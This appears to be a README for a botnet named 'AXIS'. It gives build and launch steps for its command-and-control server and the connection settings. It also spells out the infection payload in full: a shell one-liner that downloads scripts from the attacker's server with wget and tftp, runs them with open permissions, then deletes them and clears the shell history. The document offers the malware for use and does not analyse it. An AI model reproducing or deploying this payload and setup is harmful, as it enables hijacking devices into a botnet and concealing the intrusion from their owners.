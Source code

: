 ### AXIS Botnet

### Installation:
* Linux only:
  * **recommended to use Centos 7**
  * `sudo python3 build.py AXIS_CC.c (server-ip)`
  * `gcc AXIS_CNC.c -o AXIS -pthread`
  * `sudo screen ./AXIS 606 1 909`
  
### Connect
* SSH Config:
  * PORT: 909
  * TYPE: RAW
  
### Payload
* Payload: cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://(server-ip)/AXIS.sh; chmod 777 *; sh AXIS.sh; tftp -g (server-ip) -r tftp1.sh; chmod 777 *; sh tftp1.sh; rm -rf *.sh; history -c"

### window
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/808620387390324746/992772504521297990/275038087_1604950353178908_3257252682320961726_n.jpg">
</p>
